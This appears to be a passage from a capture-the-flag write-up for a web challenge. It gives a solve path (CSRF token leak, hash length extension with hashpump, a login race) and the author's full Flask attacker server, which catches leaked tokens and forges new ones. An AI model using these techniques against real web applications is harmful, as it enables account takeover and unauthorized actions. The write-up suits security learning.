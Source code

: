 ```py
        return "No moker to remove"
    users[session["user"]]["mokers"].remove(moker)
    return redirect("/view")

```
This form allows one to delete a moker from their page. It does not have any intentional vulnerabilities.

## Exploit
The intended solution uses this solve path:
- Create a user yourself first (just without the admin bot) to recieve the flagmoker.
- Clobber /view with " in the style path to leak a CSRF token. The leak will include a signed /add?daily=1 URL. This lets you have the admin add a daily moker to its account.
- Length extend the /add?daily=1 token with ?moker=flagmoker. This lets you have the admin add a flagmoker to its account.
- Race the /add?moker=flagmoker while logging into your own user. That will add the flagmoker to your user instead, and solve the challenge.

Here's my script:
```py
from flask import Flask, request, redirect, make_response, send_from_directory
import subprocess

app = Flask(__name__)

state = {"token": ""}

@app.errorhandler(404)
def handle404(e): # 404 is caused by token leak clobber
    u = request.url
    u = u.split("token=")[-1].split("%27")[0]
    if not u.isalnum():
        return "404"
    print("token", u)
    # use hashpump to grab the new token
    state["token"] = subprocess.check_output(["hashpump", "-k", "16", "-d", "/add?daily=1", "-a", "&moker=flagmoker", "-s", u]).decode().split("\n")[0]
    print("new", state["token"])
    return "OK"

@app.route("/token") # get the current forged token
def token():
    r = make_response(state["token"])
    r.headers["Access-Control-Allow-Origin"] = "*"
    return r

with open("sol.html") as f:
    SOL = f.read()

USER = "testingflagajsdafjha" # create the user first
# converts input into form //a.ngrok.io/
NGROK = input("base: ").split("https:")[1] + "/"
SOL = SOL.replace("{USER}",USER).replace("{NGROK}",NGROK)

@app.route("/index.html")
def index():
    return SOL

app.run(port=1337)
```
and the correspdonding sol.html:
```html
<!DOCTYPE html>
```